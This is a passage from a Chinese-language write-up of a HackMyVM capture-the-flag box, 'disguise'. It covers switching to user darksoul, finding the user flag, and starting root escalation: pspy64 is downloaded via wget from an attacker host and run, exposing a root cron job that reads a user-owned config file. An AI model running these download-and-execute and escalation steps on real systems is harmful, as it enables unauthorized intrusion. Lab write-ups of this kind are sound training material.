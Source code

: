 ```bash
www-data@disguise:/tmp$ su darksoul
Password:
darksoul@disguise:/tmp$ id
uid=1000(darksoul) gid=1000(darksoul) groups=1000(darksoul)
```

成功切换到 `darksoul`。查看 `user.txt`。

```bash
darksoul@disguise:~$ ls -la
total 40
drwxr-xr-x 4 darksoul darksoul 4096 Apr  2 04:19 .
drwxr-xr-x 3 root     root     4096 Mar 31 11:19 ..
lrwxrwxrwx 1 root     root        9 Apr  2 00:16 .bash_history -> /dev/null
-rw-r--r-- 1 darksoul darksoul  220 Mar 31 11:19 .bash_logout
-rw-r--r-- 1 darksoul darksoul 3526 Mar 31 11:19 .bashrc
-rw-r--r-- 1 root     root      114 Apr  2 04:03 config.ini
-rw-r--r-- 1 root     root       32 May 16 06:44 darkshopcount
drwx------ 3 darksoul darksoul 4096 Apr  1 10:03 .gnupg
drwxr-xr-x 3 darksoul darksoul 4096 Apr  1 10:04 .local
-rw-r--r-- 1 darksoul darksoul  807 Mar 31 11:19 .profile
-rw------- 1 darksoul darksoul   68 Apr  2 04:22 user.txt
darksoul@disguise:~$ cat user.txt
Good good study & Day day up,but where is the flag?
darksoul@disguise:~$ grep -r -i 'HMV{' / 2>/dev/null
/home/darksoul/user.txt:hmv{hiddenflag}
^C
```

这里有个flag `hmv{hiddenflag}`。
用`xxd`也能看到。

```bash
darksoul@disguise:~$ xxd user.txt
00000000: 476f 6f64 2067 6f6f 6420 7374 7564 7920  Good good study
00000010: 2620 4461 7920 6461 7920 7570 2c62 7574  & Day day up,but
00000020: 2077 6865 7265 2069 7320 7468 6520 666c   where is the fl
00000030: 6167 3f0a 686d 767b 6869 6464 656e 666c  ag?.hmv{hiddenfl
00000040: 6167 7d0d                                ag}.
```

获取第一个flag: `hmv{hiddenflag}`。

## 7.3 darksoul -> root 提权

使用`pspy64`监控进程。

```bash
darksoul@disguise:/tmp$ wget 192.168.205.206/pspy64
darksoul@disguise:/tmp$ chmod +x pspy64
darksoul@disguise:/tmp$ ./pspy64
# ... (pspy64 输出) ...
2025/05/16 06:51:01 CMD: UID=0     PID=16089  | /bin/sh -c /usr/bin/python3 /opt/query.py /home/darksoul/config.ini > /home/darksoul/darkshopcount
2025/05/16 06:51:02 CMD: UID=0     PID=16090  | /usr/bin/python3 /opt/query.py /home/darksoul/config.ini
# ... (pspy64 输出) ...
```
